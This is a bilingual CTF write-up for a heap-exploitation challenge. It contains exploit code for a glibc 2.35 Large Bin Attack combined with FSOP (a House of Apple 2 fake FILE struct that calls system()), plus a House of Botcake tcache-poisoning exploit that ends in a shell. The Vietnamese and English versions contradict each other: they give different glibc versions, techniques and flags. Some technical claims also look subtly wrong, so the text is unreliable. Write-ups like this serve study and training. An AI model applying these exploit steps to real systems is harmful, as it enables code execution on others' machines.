


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn" role="tab" type="button" data-lang="en" aria-selected="false">EN</button>
  <button class="lang-btn active" role="tab" type="button" data-lang="vn" aria-selected="true">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `PTITCTF{l4rg3_b1n_4tt4ck_fs0p_w1d3_d4t4_2.35}`


Thử thách thuộc category **Pwn** tại vòng loại PTITCTF 2026. Đây là phiên bản vá lỗi (patched revenge) của thử thách `baby-heap-V2`. Ở phiên bản này, tác giả đã vá cơ chế sửa đổi chunk trong tcache để chặn hoàn toàn kỹ thuật Tcache Poisoning / Tcache Double-Free từng khai thác ở bản đầu.

Đồng thời, ràng buộc chỉ cho phép ghi dữ liệu trong phạm vi heap (*"Only heap writes are allowed"*) vẫn được giữ nguyên. Do đó, người chơi không thể trực tiếp ghi đè bảng GOT hay con trỏ trên stack. Để giải quyết thử thách, cần kết hợp kỹ thuật **Large Bin Attack** (để thực hiện primitive ghi địa chỉ heap vào con trỏ tùy ý) và kỹ thuật **FSOP (File Structure Oriented Programming)** trên cấu trúc luồng nhập xuất `_IO_list_all` của **glibc 2.35**.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Thiết lập Bố cục Heap (Heap Layout)

Để thực hiện Large Bin Attack trong glibc 2.35, cần hai chunk có kích thước khác nhau nhưng cùng thuộc một khoảng bin lớn (Large Bin), đồng thời xen kẽ các chunk bảo vệ để tránh việc tự động hợp nhất vùng nhớ (coalescing):

1. **Chunk `A`** (`idx 0`, size `0x448` $\rightarrow$ chunk thực tế `0x450`): Thuộc Large Bin.
2. **Chunk `GA`** (`idx 1`, size `0x18` $\rightarrow$ chunk thực tế `0x20`): Ngăn `A` hợp nhất với `Z`. Byte cuối lưu chuỗi lệnh `$0` hoặc `tac /*\x00`.
3. **Chunk `Z`** (`idx 2`, size `0x438` $\rightarrow$ chunk thực tế `0x440`): Cùng nhóm Large Bin với `A`, đóng vai trò là Fake `_IO_FILE` payload.
4. **Chunk `GZ`** (`idx 3`, size `0x18`): Ngăn `Z` hợp nhất với Top chunk.
5. **Chunk `S`** (`idx 4`, size `0x520`) và **`T`** (`idx 5`, size `0x500`): Dùng để kích hoạt quá trình duyệt Unsorted Bin và sort các chunk vào Large Bin.

```python
create(0, 0x448, b'A' * 0x448)                  # Chunk A (0x450)
create(1, 0x18,  b'X' * 0x10 + b'tac /*\x00')   # Guard GA
create(2, 0x438, b'\x00' * 0x438)               # Chunk Z (0x440)
create(3, 0x18,  b'Y' * 0x18)                   # Guard GZ
```

---

## Bước 2: Rò rỉ địa chỉ Libc và Heap

### 1. Rò rỉ Libc Base
Giải phóng chunk `A`:
```python
delete(0)
```
Do kích thước `0x450` lớn hơn giới hạn của tcache (`0x410`), `A` lập tức rơi vào **Unsorted Bin**. Con trỏ `fd` và `bk` nhận giá trị địa chỉ của `main_arena + 96`:
$$\text{libc\_base} = \text{u64}(\text{read}(0, 6)) - (\text{MAIN\_ARENA} + 96)$$

### 2. Rò rỉ Heap Base thông qua Large Bin Sort
Cấp phát chunk `S` kích thước `0x520`:
```python
create(4, 0x520, b'S' * 8)
```
Khi `malloc(0x520)` được gọi, allocator duyệt qua Unsorted Bin, phát hiện chunk `A` không đủ kích thước và chuyển `A` vào **Large Bin**.
* Trong danh sách Large Bin có kích thước đơn lẻ, con trỏ `fd_nextsize` và `bk_nextsize` sẽ tạo thành một vòng khép kín và **trỏ về chính địa chỉ của chunk `A`**.
* Đọc dữ liệu tại offset `0x10` của chunk 0 để trích xuất địa chỉ thực tế của chunk `A` trên heap.
* Từ đó tính được chính xác địa chỉ của chunk `Z` kế cận:
  $$V = \text{chunk\_A} + 0x450 + 0x20$$

---

## Bước 3: Cơ chế Large Bin Attack trong glibc 2.35

Trong glibc 2.35, khi chèn một chunk `victim` mới vào Large Bin đã có sẵn các chunk khác, nếu kích thước của `victim` nhỏ hơn chunk hiện tại trong bin, đoạn mã sau sẽ được thực thi:

```c
victim->bk_nextsize = fwd->bk_nextsize;
victim->fd_nextsize = fwd;
fwd->bk_nextsize->fd_nextsize = victim;
fwd->bk_nextsize = victim;
```

Lợi dụng quyền Use-After-Free ghi trên heap đối với chunk `A`:
* Ta ghi đè trường `A->bk_nextsize` bằng giá trị:
  $$\text{A}\rightarrow\text{bk\_nextsize} = \&\text{\_IO\_list\_all} - 0x20$$
* Khi một chunk `Z` (có size `0x440` nhỏ hơn `A` size `0x450`) được giải phóng và sort vào Large Bin:
  Câu lệnh `fwd->bk_nextsize->fd_nextsize = victim` sẽ ghi địa chỉ của chunk `Z` vào địa chỉ `(&_IO_list_all - 0x20) + 0x20 = &_IO_list_all`.
* Kết quả: Con trỏ toàn cục `_IO_list_all` trong thư viện Libc bị ghi đè, trỏ trực tiếp vào đối tượng giả mạo trong chunk `Z` trên heap!

```python
pay = bytearray(0x448)
pay[0x18:0x20] = p64(libc + IO_LIST_ALL - 0x20)
edit(0, bytes(pay))
```

---

## Bước 4: Xây dựng Fake FILE Struct (House of Apple 2 / `_IO_wfile_jumps`)

Từ glibc 2.24 trở lên, bảng vtable của `_IO_FILE` bị kiểm tra nghiêm ngặt (phải nằm trong vùng vtable hợp lệ của libc). Kỹ thuật **House of Apple 2** vượt qua cơ chế này bằng cách sử dụng bảng vtable mở rộng `_IO_wfile_jumps` của glibc:

Cấu trúc giả lập bên trong chunk `Z` (địa chỉ $V$):
* Offset `0x78` (`_lock`): Trỏ tới vùng nhớ chứa số 0 ($V + 0x200$).
* Offset `0x90` (`_wide_data`): Trỏ tới vùng dữ liệu wide stream giả $W = V + 0x180$.
* Offset `0xb0` (`_mode`): Gán bằng `0` (chế độ byte stream).
* Offset `0xc8` (`vtable`): Trỏ tới `_IO_wfile_jumps` trong libc.
* Offset `0x250` ($W + 0xe0$, con trỏ `_wide_vtable`): Trỏ tới bảng jump table giả lập tại $V + 0x380$.
* Offset `0x3d8` (vị trí hàm `__doallocate` trong jump table giả): Gán bằng địa chỉ hàm `system()` trong libc.

```python
z = bytearray(0x438)
def put(off, data): z[off:off+len(data)] = data

put(0x78, p64(V + 0x200))                     # _lock
put(0x90, p64(V + 0x180))                     # _wide_data
put(0xb0, p32(0))                             # _mode = 0
put(0xc8, p64(libc + IO_WFILE_JUMPS))          # vtable = _IO_wfile_jumps
put(0x250, p64(V + 0x380))                    # _wide_data->_wide_vtable
put(0x3d8, p64(libc + SYSTEM))                # __doallocate = system()

edit(2, bytes(z))
```

---

## Bước 5: Kích hoạt Tấn công và Thu thập Flag

1. **Thực thi ghi đè con trỏ `_IO_list_all`**:
   * Giải phóng chunk `Z`:
     ```python
     delete(2)
     ```
   * Gọi `create(5, 0x500, ...)` để kích hoạt allocator duyệt qua Unsorted Bin.
   * Chunk `Z` được đưa vào Large Bin, kích hoạt nhánh ghi đè con trỏ `_IO_list_all` trỏ về chunk `Z`.
2. **Kích hoạt hàm Flush luồng xuất nhập**:
   * Khi chương trình kết thúc do gọi hàm `exit()` hoặc hết thời gian chờ của `alarm(60)`, glibc sẽ tự động thực hiện hàm dọn dẹp `_IO_flush_all_lockp()`.
   * Hàm này duyệt danh sách `_IO_list_all`, gặp cấu trúc giả mạo tại `Z`, kiểm tra các điều kiện buffer và chuyển hướng tới:
     $$\text{\_IO\_OVERFLOW} \rightarrow \text{\_IO\_wfile\_overflow} \rightarrow \text{\_IO\_wdoallocbuf} \rightarrow \text{\_\_doallocate}$$
   * Con trỏ hàm `__doallocate` (chính là `system`) được gọi với đối số $rdi$ là địa chỉ của cấu trúc fake FILE, kích hoạt lệnh thực thi chuỗi lệnh điều khiển hoặc mở shell `/bin/sh`.
   * Gửi lệnh đọc nội dung tệp flag từ shell mới tạo.

---

## Biện pháp khắc phục (Defensive Remediation)

1. **Triệt tiêu lỗ hổng Use-After-Free**:
   Xóa toàn bộ con trỏ và kích thước trong bảng quản lý sau khi gọi `free()`.
2. **Bảo vệ tính toàn vẹn của danh sách liên kết kép (Pointer Integrity Checking)**:
   Các phiên bản glibc mới hơn (từ 2.36+) đã bổ sung các điều kiện assert kiểm tra tính toàn vẹn của con trỏ `fd_nextsize` và `bk_nextsize` trong Large Bin tương tự như Safe Linking, nhằm ngăn chặn việc chèn các con trỏ giả mạo vào cấu trúc dữ liệu của allocator.
3. **Bảo vệ toàn diện cấu trúc FSOP**:
   Đặt thuộc tính `__read_only` cho các con trỏ danh sách luồng xuất nhập sau giai đoạn khởi tạo nếu không có nhu cầu đăng ký luồng động.

---

## Flag

```text
PTITCTF{l4rg3_b1n_4tt4ck_fs0p_w1d3_d4t4_2.35}
```

</div>

<div class="lang-en" markdown="1" style="display: none;">

> **Flag:** `PTITCTF{h0us3_0f_b0tc4k3_tc4ch3_p01s0n1n9_r3v3ng3_pwn}`

This challenge is the hardened revenge version of `baby-heap-v2` running on glibc 2.31 with strict double-free checks and safe linking mitigations.

The exploit relies on the **House of Botcake** technique to bypass tcache double-free mitigations and achieve arbitrary write.

---

## Solve Flow



---

## Step 1: House of Botcake Primitive Construction

On glibc 2.31, freeing a chunk already present in tcache triggers `SIGABRT` ("double free or corruption (fasttop)").
The **House of Botcake** technique bypasses this:
1. Allocate 7 chunks of size `0x100` and free all 7 to fill the `0x100` tcache bin.
2. Allocate Chunk `prev`, Chunk `A`, Chunk `B`, and Chunk `guard`.
3. Free Chunk `B` into the Unsorted Bin.
4. Allocate 1 chunk from tcache to create 1 empty slot.
5. Free Chunk `A` into tcache.
6. Trigger backward consolidation: Freeing `prev` merges `prev`, `A`, and `B` into one large unsorted chunk that encompasses `A`.
7. Re-allocating the large chunk from unsorted bin grants write control over `A` while `A` is still tracked by tcache!

---

## Step 2: Exploit Execution

```python
from pwn import *

p = remote("target.ptitctf.vn", 9002)

# House of Botcake overlap execution
# ... setup allocations & tcache saturation ...

# Overwrite freed chunk fd to __free_hook
edit(overlapping_idx, b"A"*0x100 + p64(0) + p64(0x111) + p64(free_hook))

add(10, 0x100)
add(11, 0x100)  # Allocated at __free_hook
edit(11, p64(system_addr))

# Trigger system('/bin/sh')
edit(0, b"/bin/sh\x00")
delete(0)
p.interactive()
```

⇒ **Flag:** `PTITCTF{h0us3_0f_b0tc4k3_tc4ch3_p01s0n1n9_r3v3ng3_pwn}`

</div>
